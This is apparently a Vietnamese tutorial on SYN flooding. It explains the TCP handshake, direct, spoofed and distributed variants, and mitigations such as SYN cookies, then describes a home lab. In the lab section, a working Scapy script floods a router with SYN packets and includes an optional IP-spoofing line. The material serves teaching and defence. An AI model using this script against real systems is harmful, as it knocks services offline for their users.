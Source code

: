 # SYN Flooding

## Khái niệm

- Tấn công SYN Flooding là một dạng tấn công từ chối dịch vụ phổ biến , trong đó kẻ tấn công gửi một chuỗi yêu cầu SYN đến hệ thống đích (có thể là bộ định tuyến, tường lửa, Hệ thống ngăn chặn xâm nhập (IPS), v.v.) để tiêu thụ tài nguyên của nó, ngăn chặn các khách hàng kết nối thường xuyên.

Một cuộc tấn công DDoS SYN-flood tận dụng quy trình bắt tay ba bước TCP. Trong điều kiện bình thường, kết nối TCP được thể hiện quy trình 3 bước riêng biệt để tạo được sự kết nối như sau:

- Bước 1: Đầu tiên, máy tấn công gửi 1 packet tin SYN đến Server để yêu cầu kết nối.
- Bước 2: Sau khi tiếp nhận packet SYN, Server phản hồi lại máy khách bằng một packet SYN/ACK, để xác nhận thông tin từ Client.
- Bước 3: Cuối cùng, Client nhận được packet tin SYN/ACK thì sẽ trả lời server bằng packet tin ACK báo với server biết rằng nó đã nhận được packet tin SYN/ACK, kết nối đã được thiết lập và sẵn sàng trao đổi dữ liệu.

![image](https://hackmd.io/_uploads/rJekWP3C6.png)

Để tạo từ chối dịch vụ (DOS), thực tế kẻ tấn công sẽ khai thác sau khi nhận được packet SYN ban đầu từ Client. Server sẽ phản hồi lại 1 hoặc nhiều packet SYN/ACK và chờ đến bước cuối cùng trong quá trình Handshake. Ở đây, cách thức thực hiện của nó như sau:

- Bước 1: Kẻ tấn công sẽ gửi một khối lượng lớn các packet tin SYN đến Server. Được nhắm là mục tiêu và thường là các địa chỉ IP giả mạo.

- Bước 2: Sau đó Server sẽ phản hồi lại từng yêu cầu kết nối. Để lại 1 cổng mở sẵn sàng tiếp nhận và phản hồi.

- Bước 3: Trong khi Server chờ packet ACK ở bước cuối cùng từ Client, packet mà không bao giờ đến. Kẻ tấn công tiếp tục gửi thêm các packet SYN. Sự xuất hiện các packet SYN mới khiến máy chủ tạm thời duy trì kết nối cổng mở mới trong một thời gian nhất định. Một khi các cổng có sẵn được sử dụng thì Server không thể hoạt động như bình thường.

Trong kết nối mạng, khi Server bên này kết nối mở nhưng máy bên kia không kết nối thì được coi là half-open. Trong kiểu tấn công DDos, sau khi server gửi gói tin SYN/ACK nó sẽ phải đợi cho đến khi client trả lời. Đến khi các port trở lại bình thường. Kết quả của kiểu tấn công này được coi là cuộc tấn công half-open.

![image](https://hackmd.io/_uploads/SknZ-Dn0T.png)

![image](https://hackmd.io/_uploads/r1AT4vh0p.png)

![image](https://hackmd.io/_uploads/Hyc2MDhCT.png)

### SYN Flood( half-open) có thể xảy ra theo 3 cách khác nhau

#### Tấn công trực tiếp

- SYN Flood ở những nơi địa chỉ IP không bị giả mạo thì được coi là tấn công trực tiếp.
- Trong cuộc tấn công này, kẻ tấn công không hoàn toàn giấu địa chỉ IP của họ. Kết quả là kẻ tấn công sử dụng duy nhất 1 thiết bị nguồn có địa chỉ IP thực để tạo cuộc tấn công.
- Kẻ tấn công rất dễ bị phát hiện và giảm nhẹ. Để tạo trạng thái half-open trên Server mục tiêu, hacker ngăn chặn máy của họ phản ứng với packet tin SYN/ACK của Server. Điều này thường đạt được nhờ quy tắc tường lửa ngăn chặn các packet tin đi ra ngoài. Packet tin SYN hoặc chọn lọc ra bất kỳ packet tin SYN/ACK xuất hiện trước khi chúng ảnh hưởng những độc hại đến máy người dùng.
- Thực tế thì cách này ít sử dụng (nếu có), việc giảm thiểu cũng khá đơn giản – chỉ cần chặn địa chỉ IP của từng hệ thống độc hại. Nếu kẻ tấn công đang sử dụng Botnet như Mirai Botnet thì họ sẽ thành công trong việc che giấu địa chỉ IP của các thiết bị nhiễm bệnh.

#### Tấn công giả mạo

- Một người dùng có ác tâm cũng có thể giả mạo địa chỉ IP trên mỗi packet tin SYN họ gửi đi để ngăn chặn, giảm thiểu tối đa và làm cho danh tính của họ khó phát hiện hơn. Trong những packet tin có thể bị giả mạo, có những packet tin có thể phát hiện lại nguồn của họ.
- Việc này rất khó để khám phá ra danh tính nhưng không phải là không thể. Đặc biệt là các nhà cung cấp dịch vụ Internet (ISP) sẵn sàng giúp đỡ.
- ![image](https://hackmd.io/_uploads/rkmntw206.png)

#### Tấn công phân tán trực tiếp (DDoS)

- Nếu cuộc tấn công tạo ra bằng cách sử dụng Botnet thì khả năng theo dõi cuộc tấn công trở lại nguồn của nó rất thấp. Với mức độ che giấu được thêm vào, kẻ tấn công có thể có các thiết bị phân tán cũng giả mạo địa chỉ IP mà nó gửi các packet. Nếu người tấn công đang sử dụng botnet như mirai botnet. Nhìn chung họ sẽ thành công trong việc che giấu IP về thiết bị bị nhiễm.

- Bằng cách sử dụng tấn công SYN flood, một kẻ xấu nào đó cố gắng tạo ra sự tấn công Ddos tới thiết bị mục tiêu. Hoặc dịch vụ với lưu lương truy cập ít hơn so với các cuộc tấn công Ddos. Thay cho các cuộc tấn công lớn, nhằm mục đích làm quá tải cơ sở hạ tầng xung quanh mục tiêu. SYN attacks only need to be larger than the available backlog in the target’s operating system. Nếu kẻ tấn công có thể xác định kích thước của backlog và mỗi lần kết nối sẽ mở trong bao lâu trước khi hết thời gian. Kẻ tấn công có thể nhắm mục tiêu các tham số chính xác cần thiết để vô hiệu hóa hệ thống. Có thể bằng cách giảm tổng lưu lượng xuống mức tối thiểu cần thiết để tạo Ddos.

## Phòng tránh

- Tăng hàng đợi backlog
  - Hệ điều hành của thiết bị mà kẻ xấu nhắm vào sẽ có một số kết nối half – open cho phép. Tăng số lượng kết nối half – open là một cách hay để giảm thiểu tấn công SYN. Và để tăng backlog tồn đọng thì hệ thống phải dự trữ thêm bộ nhớ. Nếu bộ nhớ không đủ để xử lý backlog tồn đọng thì hiệu suất làm việc của hệ thống bị ảnh hưởng. Thế nhưng điều này cũng tốt hơn so với từ chối dịch vụ.
- Lặp lại sự kết nối half-open TCP cũ
  - Sau khi backlog được lấp đầy thì lặp lại kết nối half – open TCP cũ là một chiến lược để giảm thiểu cuộc tấn công SYN. Cách thức này yêu cầu trong một thời gian ngắn các kết nối hợp pháp được thiết lập thay vì backlog sẽ chứa nhiều gói SYN độc hại. Tuy nhiên phương án này sẽ thất bại khi các cuộc tấn công trở nên mạnh mẽ hoặc kích thước backlog quá nhỏ.
- SYN cookies
  - Tạo ra một cookie của server là một chiến lược hay ho để hạn chế sự tấn công lũ lượt của SYN. Server sẽ dùng gói packet SYN – ACK để phản hồi từng kết nối và xóa yêu cầu SYN ra khỏi backlog, để port mở sẵn sàng tạo kết nối mới. Hành động này nhằm mục đích tránh rủi ro rớt kết nối khi mà backlog đã được lấp đầy.
  - Nếu gói ACK cuối cùng được chuyển từ client tới server và kết nối đó là một yêu cầu hợp pháp thì server sẽ xây dựng lại SYN backlog. Hạn chế của cách nói trên là làm một số thông tin về kết nối TCP bị mất đi nhưng vẫn tốt hơn khi bị tấn công từ chối dịch vụ.

## SYN Flooding LAB

- mình có máy kali với ip là 192.176.45.104 làm attacker

![image](https://hackmd.io/_uploads/BJzKj0sCa.png)

- máy window 10 có địa chỉ 192.176.45.103 làm user bình thường truy cập vào trang quản trị routerwifi địa chỉ 192.176.45.1

![image](https://hackmd.io/_uploads/HkSojAoAT.png)

- mình dùng đoạn code sau để tấn công Dos
  - Mục tiêu của đoạn mã này là tạo ra một tấn công từ chối dịch vụ (DoS) bằng cách gửi một lượng lớn gói tin TCP SYN tới một máy chủ hoặc thiết bị mạng cụ thể.

```python
from scapy.all import *

# target IP address (should be a testing router/firewall)
target_ip = "192.176.45.1"
# the target port u want to flood
target_port = 80
# forge IP packet with target ip as the destination IP address
ip = IP(dst=target_ip)
# or if you want to perform IP Spoofing (will work as well)
# ip = IP(src=RandIP("192.168.1.1/24"), dst=target_ip)
# forge a TCP SYN packet with a random source port
# and the target port as the destination port
tcp = TCP(sport=RandShort(), dport=target_port, flags="S")
# add some flooding data (1KB in this case, don't increase it too much,
# otherwise, it won't work.)
raw = Raw(b"X"*1024)
# stack up the layers
p = ip / tcp / raw
# send the constructed packet in a loop until CTRL+C is detected
send(p, loop=1, verbose=0)
```

- đoạn code sẽ:

  - target_ip = "192.176.45.1": Xác định địa chỉ IP của máy chủ hoặc thiết bị mạng mà bạn muốn tấn công.
  - target_port = 80: Xác định cổng mà bạn muốn tấn công.
  - ip = IP(dst=target_ip): Tạo một gói tin IP với địa chỉ IP đích là target_ip.
  - tcp = TCP(sport=RandShort(), dport=target_port, flags="S"): Tạo một gói tin TCP SYN với cổng nguồn ngẫu nhiên (sử dụng RandShort()), cổng đích là target_port, và cờ SYN được đặt để bắt đầu một kết nối.
  - raw = Raw(b"X"\*1024): Tạo dữ liệu gửi đi, trong trường hợp này là 1024 byte dữ liệu gồm toàn ký tự "X".
  - p = ip / tcp / raw: Ghép các lớp gói tin IP, TCP và dữ liệu vào một gói tin duy nhất.
  - send(p, loop=1, verbose=0): Gửi gói tin đã tạo đi. loop=1 chỉ định rằng gói tin sẽ được gửi lại lặp đi lặp lại. verbose=0 chỉ định rằng không có thông báo nào sẽ xuất hiện trong quá trình gửi gói tin.

- mình chạy file trên và quan sát trong wireshark thấy rất nhiều gói tin SYN được gửi

![image](https://hackmd.io/_uploads/r1-E9Aj0T.png)

- cùng với đó mình dùng máy user window 10 ping liên tục để kết nối đến routerwifi

![image](https://hackmd.io/_uploads/rksUqRiRp.png)

![image](https://hackmd.io/_uploads/BJJp5RsCp.png)

- thấy thời gian reply sẽ lâu dần

![image](https://hackmd.io/_uploads/S1UysCo06.png)

- và cuối cùng là time out

![image](https://hackmd.io/_uploads/SyBR50s0p.png)

## Tham khảo

- https://thepythoncode.com/article/syn-flooding-attack-using-scapy-in-python
